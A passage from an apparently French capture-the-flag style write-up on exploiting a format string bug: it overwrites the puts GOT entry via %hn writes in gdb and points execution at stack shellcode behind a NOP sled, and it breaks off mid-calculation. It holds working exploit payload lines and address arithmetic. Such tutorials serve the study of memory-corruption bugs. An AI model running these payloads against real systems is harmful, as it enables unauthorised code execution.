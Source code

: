 ```jmp *0x804a014``` nous montre que l'on va faire un jump à l'adresse contenue à l'adresse *0x804a014*.  

![fmt8]({{ site.url }}/public/images/fmt/fmt8.png)
Let's check in gdb:  

![fmt9]({{ site.url }}/public/images/fmt/fmt9.png)
Il semblerait que nous puissions écrire sur ce segment mémoire. Comment allons-nous procéder?  
D'abord injectons l'adresse mémoire à laquelle nous souhaitons écrire:  

![fmt10]({{ site.url }}/public/images/fmt/fmt10.png)
On définit maintenant un point d'arrêt cette fois juste avant l'appel à la fonction printf:  

![fmt11]({{ site.url }}/public/images/fmt/fmt11.png)
Bingo. On voit bien que l'adresse a été écrasée et que nous avons une **segmentation fault**.  
  
Maintenant la partie sensible, l'écriture de cette adresse. Pour écrire cette adresse nous utiliserons le formateur **%7$hn** dans notre cas. L'instruction de formatage **%hn** n'écrit que sur **16 octets**.  
  
Globalement notre buffer ressemblera à ceci:
```
"A"+"@ où écrire 16bits" + "@ où écrire les 16 autres bits" + "valeur correspondante à ces 16 bits" + "formateur écriture 16 bits" + "valeur correspondante à ces 16 autres bits" + "formateur écriture 16 bits" + "shellcode"
```  
  
Pourquoi ne pas écrire directement les 32 bits? Nous utiliserons la précision sur le formatage d'une valeur, ici le nombre de caractères sur lequel nous l'afficherons. L'adresse convertie en entier fournit un entier tout simplement trop grand pour être utilisé.   
```
(gdb) print 0xbffff24c 
$2 = 3221221964
```  
 
Tapez ```printf "%3221221964u"``` dans votre console. 
  
L'adresse finale écrite sera l'adresse de notre "shellcode".
  
Première étape:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%7$hn" + "A" + "%8$hn" + "A"*50') 
...
Program received signal SIGSEGV, 
Segmentation fault. 0x000a0009 in ?? () 
```
  
Maintenant déterminons l'adresse précise de notre shellcode:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%65535x" + "%8$hn" + "%65535x" + "%7$hn" + "A"*50')
```  
  
![fmt12]({{ site.url }}/public/images/fmt/fmt12.png)
**0xbffff26c** semble être un bon candidat. On ajoutera quelques NOPs également comme marge de manoeuvre, l'objectif étant de tomber dans nos NOPs et de slider jusqu'à notre shellcode.  
  
Ok maintenant les calculs:  
@ de puts: **0x804a014**  
@ du shellcode: **0xbffff26c**  
  
Calcul de la première partie de l'adresse (conversion décimale):
```
(gdb) print 0xbfff - 9 
$3 = 49142
```
```